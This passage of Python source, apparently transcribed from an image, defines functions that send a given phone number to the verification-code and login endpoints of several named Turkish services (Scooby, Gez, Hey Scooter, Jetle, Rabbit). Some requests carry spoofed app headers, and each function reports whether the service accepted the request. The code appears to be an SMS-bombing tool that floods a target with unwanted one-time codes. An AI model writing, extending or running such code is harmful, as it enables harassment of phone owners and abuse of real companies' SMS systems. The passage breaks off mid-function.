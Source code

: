 def scooby(number):
    try:
        url = f"https://sct.scoobyturkiye.com/v1/mobile/user/code-request?phoneNumber=90{number}"
        r = requests.get(url=url, timeout=5)
        if r.status_code == 200:
            return True, "Scooby"
        else:
            return False, "Scooby"
    except:
        return False, "Scooby"

def gez(number):
    try:
        url = f"https://gezteknoloji.arabulucuyuz.net/api/Account/get-phone-number-confirmation-code-for-new-user?phonenumber=90{number}"
        r = requests.get(url=url, timeout=5)
        r1 = json.loads(r.text)["succeeded"]
        if r1 == True:
            return True, "Gez"
        else:
            return False, "Gez"
    except:
        return False, "Gez"

def heyscooter(number):
    try:
        url = f"https://heyapi.heymobility.tech/V9//api/User/ActivationCodeRequest?organizationId=9DCA312E-18C8-4DAE-AE65-01FEAD558739&phonenumber={number}"
        headers = {"user-agent" : "okhttp/3.12.1"}
        r = requests.post(url=url, headers=headers, timeout=5)
        r1 = json.loads(r.text)["IsSuccess"]
        if r1 == True:
            return True, "Hey Scooter"
        else:
            return False, "Hey Scooter"
    except:
        return False, "Hey Scooter"

def jetle(number):
    try:
        url = f"http://ws.geowix.com/GeoCourier/SubmitPhoneToLogin?phonenumber={number}&firmaID=1048"
        r = requests.get(url=url, timeout=5)
        if r.status_code == 200:
            return True, "Jetle"
        else:
            return False, "Jetle"
    except:
        return False, "Jetle"

def rabbit(number):
    try:
        url = "https://api.rbbt.com.tr/v1/auth/authenticate"
        payload = {
            "mobile_number" : f"+90{number}",
            "os_name" : "android",
            "os_version" : "7.1.2",
            "app_version" : " 1.0.2(12)",
            "push_id" : "-"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["status"]
        if r1 == True:
            return True, "Rabbit"
        else:
            return False, "Rabbit"